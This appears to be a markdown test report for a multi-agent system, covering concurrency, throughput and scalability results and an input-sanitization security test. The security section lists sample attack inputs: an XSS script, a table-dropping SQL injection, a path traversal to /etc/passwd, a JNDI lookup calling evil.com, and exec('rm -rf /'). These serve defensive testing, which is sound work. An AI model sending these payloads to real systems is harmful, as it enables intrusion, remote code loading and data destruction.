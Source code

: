 #### Concurrent Agent Operations
- **Test**: `test_concurrent_agent_operations`
- **Purpose**: Validate multiple agents operating simultaneously
- **Test Configuration**:
  - 5 concurrent agents
  - Different style configurations per agent
  - Parallel task execution
- **Results**: 
  - 100% success rate (5/5 agents)
  - Execution time: <1 second
  - No race conditions detected
- **Acceptance Criteria**: ≥80% concurrent success rate ✅

#### High Throughput Processing
- **Test**: `test_high_throughput_processing`
- **Purpose**: Validate system performance under high request volume
- **Test Configuration**:
  - 100 total requests
  - Processed in batches of 10
  - Single agent processing
- **Results**:
  - Overall throughput: 48.7 requests/second
  - Consistent performance across batches (48.6-49.0 req/s)
  - Zero request failures
- **Acceptance Criteria**: ≥5 requests/second ✅

#### Scalable Performance Harness
- **Test**: `test_scalable_performance_harness`
- **Purpose**: Validate performance harness scales with increasing load
- **Test Configuration**:
  - Load levels: 5, 15, 30 iterations
  - Single-turn benchmark type
  - Success rate and throughput monitoring
- **Results**:
  - Load 5: 34.45 ops/sec, 100% success
  - Load 15: 42.61 ops/sec, 100% success  
  - Load 30: 45.34 ops/sec, 100% success
  - Performance improvement with scale (negative degradation)
- **Acceptance Criteria**: <50% performance degradation ✅

### Security Requirements ✅ 3/3 Tests

#### Input Sanitization
- **Test**: `test_input_sanitization`
- **Purpose**: Validate safe handling of potentially malicious inputs
- **Malicious Input Types**:
  - XSS attempts: `<script>alert('xss')</script>`
  - SQL injection: `'; DROP TABLE users; --`
  - Path traversal: `../../../../etc/passwd`
  - Log injection: `${jndi:ldap://evil.com/a}`
  - Code execution: `exec('rm -rf /')`
  - Control characters: `\x00\x01\x02\x03`
- **Results**: All malicious inputs handled safely
- **Security Measures**:
  - Script tags blocked or sanitized
  - SQL injection patterns neutralized
  - Path traversal attempts prevented
- **Acceptance Criteria**: No malicious code execution ✅
